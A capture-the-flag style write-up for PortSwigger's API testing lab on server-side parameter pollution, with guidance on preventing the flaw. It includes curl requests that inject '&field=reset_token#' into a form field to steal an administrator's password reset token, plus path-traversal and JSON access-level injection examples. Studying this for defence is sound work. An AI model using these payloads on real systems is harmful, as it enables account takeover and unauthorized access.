 # API Testing part 2

This writeup covers the learning path *API_testing* on Portswigger.

## Preventing vulnerabilities in APIs

When designing an API it is important, as with all other software, to think security from the start. Particularly, make sure that documentation is only accessible by those who are authorized to use the API, apply allow lists for HTTP methods, sanitize and validate HTTP headers (Content type). Furthermore using generic error messages or codes will help defend against attackers who can use verbose errors to figure out the system. Protective measures should be used on all versions of the API currently available, not just production.
Also be vary of mass assignment, and only allow assignment to inteded properties.

## Server-side parameter pollution

Much like server-side request forgery (SSRF), this vulnerability allows an attacker to manipulate requests to internal APIs, if the system embeds user input into internal API requests. Server-side parameter pollution allows an attacker to override and modify application data and behavior and might allow access to unauthorized data too.

All types of user input is possibly vulnerable to parameter pollution. Such as:

- Query params
- Form fields
- Headers

and so on.

### Testing for server-side parameter pollution

An example of parameter pollution in the query string could look like this:

- Public query to frontend

```HTTP
GET /userSearch?name=peter&back=/home
```

Server-side then makes the request to an internal API as such:

```HTTP
GET /users/search?name=peter&publicProfile=true
```

It is useful to test the response of the application by providing special characters in the query such as `#` `&` `=`.

**Note:** The special chars should be URL encoded.

We could use the `#` (URL encoded: `%23`) in order to test for query truncation. A truncated query means that the rest of the query is not getting parsed, as we have inserted something else for the backend to parse (in this case the `#` followed by some value e.g `foo`). Using this, we might be able to bypass some checks. It might also prove fruitful to add another query parameter using `&`. If the server parses the extra parameter, it might be useful or just ignored.

If we have identified additional parameters (See part 1), we might be able to parse these in the query string. It might bypass some authentication / authorization.
Parsing more than one of the same query parameter such as `?username=peter&username=admin` might also prove to be valuable, if the server parses the last username when looking in the database, but uses the first for authentication, we might be able to log in as admin.

## Lab: Exploiting server-side parameter pollution in a query string

**Lab Description**: To solve the lab, log in as the `administrator` and delete `carlos`.

### Lab solution

We are not given any log-in. Yet inspecting the login page and trying to log in might give us some information on how the API works. Trying to log in this not result in any information on the API. But the forgot password functionality uses a JS script, which has a query parameter: `/forgot-password?reset_token=${resetToken}`. Immediately this does not provide any useful information. When querying the forgot_password endpoint with a random token, it repsonds with invalid token.

What about the products? Let's try. Here we see the query: `/product?productId=1`. Adding another query param returns `invalid product ID`, which means the backend might concatenate the two fields.

I believe that we have to try again with the forgot password endpoint. It seems that we need to do post requests with form-urlencoded and not look for a api with query params. (I used a hint for this one, as I am not using Burp suite for these labs and I thought that we where searching for a query string in a GET request, not a POST. You learn something new all the time!). To solve this lab I used curl to send the requests to forgot_password:

```bash
curl 'https://0af4001c0430d813821fb5ac009200c7.web-security-academy.net/forgot-password' --compressed -X POST -H 'Content-Type: x-www-form-urlencoded' -H 'Cookie: session=hzwoZGbNrumgHEvMg6reVSMDMOFFt7SX' --data-raw 'csrf=09PhPtnnnM1TOSq1WbVcd6XQUOyUHNOP&username=administrator'
{"type":"email","result":"*****@normal-user.net"}%  
```

Now let's manipulate this query. As the previous section informed us, we could try to truncate and add another field! Lets try adding a random field to check out the message we get back first:

**Note:** remember to URL encode!!

```bash
curl 'https://0af4001c0430d813821fb5ac009200c7.web-security-academy.net/forgot-password' --compressed -X POST -H 'Content-Type: x-www-form-urlencoded' -H 'Cookie: session=hzwoZGbNrumgHEvMg6reVSMDMOFFt7SX' --data-raw 'csrf=09PhPtnnnM1TOSq1WbVcd6XQUOyUHNOP&username=administrator%26foo=bar'
{"error": "Parameter is not supported."}% 
```

And we see that, this parameter is not supported! Well, maybe a different one is. Where should we start? I thought we could maybe change the email of the admin account to our own (I don't think this is necessary for this challenge, but if it was a real life case) so i tried changing the parameter to email. This did not work and I do not feel like bruteforcing this parameter. Let's try to truncate!

```bash
curl 'https://0af4001c0430d813821fb5ac009200c7.web-security-academy.net/forgot-password' --compressed -X POST -H 'Content-Type: x-www-form-urlencoded' -H 'Cookie: session=hzwoZGbNrumgHEvMg6reVSMDMOFFt7SX' --data-raw 'csrf=09PhPtnnnM1TOSq1WbVcd6XQUOyUHNOP&username=administrator%23'              
{"error": "Field not specified."}%  
```

We get the message `Field not specified`. This hints towards that a parameter called `field` can be set:

```bash
curl 'https://0af4001c0430d813821fb5ac009200c7.web-security-academy.net/forgot-password' --compressed -X POST -H 'Content-Type: x-www-form-urlencoded' -H 'Cookie: session=hzwoZGbNrumgHEvMg6reVSMDMOFFt7SX' --data-raw 'csrf=09PhPtnnnM1TOSq1WbVcd6XQUOyUHNOP&username=administrator%26field=bar%23'
{"type":"ClientError","code":400,"error":"Invalid field."}% 
```

Now this looks promising!. Maybe email will work as a valid field! it does! 

```bash
curl 'https://0af4001c0430d813821fb5ac009200c7.web-security-academy.net/forgot-password' --compressed -X POST -H 'Content-Type: x-www-form-urlencoded' -H 'Cookie: session=hzwoZGbNrumgHEvMg6reVSMDMOFFt7SX' --data-raw 'csrf=09PhPtnnnM1TOSq1WbVcd6XQUOyUHNOP&username=administrator%26field=email%23'
{"type":"email","result":"*****@normal-user.net"}% 
```

We are back to the original response. Recall the forgot_password JS script where we found the reset_token url. We might be able to retrieve a token if we change the field to reset_token:

```bash
curl 'https://0af4001c0430d813821fb5ac009200c7.web-security-academy.net/forgot-password' --compressed -X POST -H 'Content-Type: x-www-form-urlencoded' -H 'Cookie: session=hzwoZGbNrumgHEvMg6reVSMDMOFFt7SX' --data-raw 'csrf=09PhPtnnnM1TOSq1WbVcd6XQUOyUHNOP&username=administrator%26field=reset_token%23'
{"type":"reset_token","result":"2350wzp9hfy9j4ulxdbwzy53ufvn629p"}%   
```

We get a token. Now we can try the reset_token endpoint with our new token! It works, and now a reset password page is presented to us, simply change the administrator password and login, in order to delete carlos.

**Note:** I viewed the rest of the solution hints afterwards and saw that Burp has a parameter bruteforce tool, quite neat! This one was a bit hard for me, because I got tunnel vision looking for a `/api` endpoint with query parameters in it, when in reality all it took was a post request with form-urlencoded.

### Testing for server-side parameter pollution in REST paths

A common practice with RESTful apis is the insertion of parameter names and values directly in the path, rather than in a query string. It looks like this: `/api/users/123` rather than `/api?users=123`.

Injection in this type of api might resolve in undesired behavior as the path can be manipulated. Some frameworks might truncate the path if dots are present: `GET /api/private/users/peter/../admin` will result in `/api/private/users/admin`.

Another practice is injection in structured data formats like JSON and XML. An attacker might be able to add fields to the input which are not sanitized like this: 

```formdata
POST /myaccount
name=peter","access_level":"administrator
```

which then becomes:

```JSON
PATCH /users/7312/update
{name="peter","access_level":"administrator"}
```

When the server side request is processed. This can also happen with XML, especially malicious if XXE (XML External Entity injection) is possible.

Preventing parameter pollution is essentially configuring an allowlist which defines characters that don't need encoding and making sure all other user input is encoded before it is included in a server side request.

This conclues the API testing learning path on Portswigger.